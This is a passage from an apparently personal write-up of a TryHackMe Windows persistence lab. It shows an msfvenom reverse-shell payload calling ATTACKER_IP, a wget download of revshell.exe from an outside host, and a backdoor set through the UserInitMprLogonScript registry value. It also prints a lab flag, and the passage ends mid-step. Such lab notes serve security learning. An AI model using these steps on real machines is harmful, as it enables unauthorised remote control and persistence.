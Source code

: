 ```
wget http://10.14.21.28:8000/revshell.exe -O C:\Windows\revshell.exe

del C:\Windows\revshell.exe

c:\tools\pstools\PsExec64.exe -s -i regedit
```

Once we follow all steps, we get our shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020250516113622.png)

```
C:\flags>.\flag12.exe
THM{I_INSIST_GO_FIRST}
```

### Logon scripts

One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.

Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

Let's first create a reverse shell to use for this technique:

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use `C:\Windows`:

```shell-session
C:\> move revshell.exe C:\Windows
```

To create an environment variable for a user, you can go to its `HKCU\Environment` in the registry. We will use the `UserInitMprLogonScript` entry to point to our payload so it gets loaded when the users logs in:

![Backdoored env](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9ce41ee1fc282b8dcacd757b23417b12.png)

Notice that this registry key has no equivalent in `HKLM`, making your backdoor apply to the current user only.

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Using your newly obtained shell, execute `C:\flags\flag13.exe` to get a flag

Once we did all steps, we get a shell:
